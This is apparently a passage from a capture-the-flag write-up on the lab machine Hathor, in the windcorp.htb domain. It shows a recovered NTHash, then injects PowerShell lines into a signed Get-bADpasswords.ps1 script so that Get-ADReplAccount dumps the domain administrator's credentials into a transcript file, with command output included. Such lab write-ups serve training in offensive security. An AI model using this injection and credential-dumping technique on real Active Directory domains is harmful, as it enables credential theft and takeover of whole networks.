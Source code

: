 

There's the NTHash, b3ff8d7532eef396a5347ed33933030f.

#### Via Injection

If I couldn't get a shell for some reason, I could still do this via the
script injection. I'll add the following three lines to the start of my
local copy of `Get-bADpasswords.ps1`:



    Start-Transcript -Path 'C:\Programdata\0xdf-transcript.txt'
    Get-ADReplAccount -SamAccountName administrator -Server 'hathor.windcorp.htb'
    Stop-Transcript



This is starting a transcript in the location of my choosing, and then
running the same command.

I'll upload, copy into place, sign, and trigger.
`C:\programdata\0xdf-transcript.txt` exists:



    PS C:\programdata> ls 0xdf-transcript.txt

        Directory: C:\programdata

    Mode                 LastWriteTime         Length Name
    ----                 -------------         ------ ----
    -a----        11/10/2022  11:14 PM           6622 0xdf-transcript.txt 



And it has the same information after a transcript header:



    PS C:\programdata> type 0xdf-transcript.txt
    **********************
    Windows PowerShell transcript start
    Start time: 20221110231446
    Username: WINDCORP\bpassrunner
    RunAs User: WINDCORP\bpassrunner
    Configuration Name:                            
    Machine: HATHOR (Microsoft Windows NT 10.0.20348.0)
    Host Application: powershell.exe C:\Get-bADpasswords\Get-bADpasswords.ps1
    Process ID: 25908                              
    PSVersion: 5.1.20348.643                       
    PSEdition: Desktop                             
    PSCompatibleVersions: 1.0, 2.0, 3.0, 4.0, 5.0, 5.1.20348.643
    BuildVersion: 10.0.20348.643                   
    CLRVersion: 4.0.30319.42000                    
    WSManStackVersion: 3.0
    PSRemotingProtocolVersion: 2.3
    SerializationVersion: 1.1.0.1
    **********************                         
    Transcript started, output file is C:\Programdata\0xdf-transcript.txt
                                                        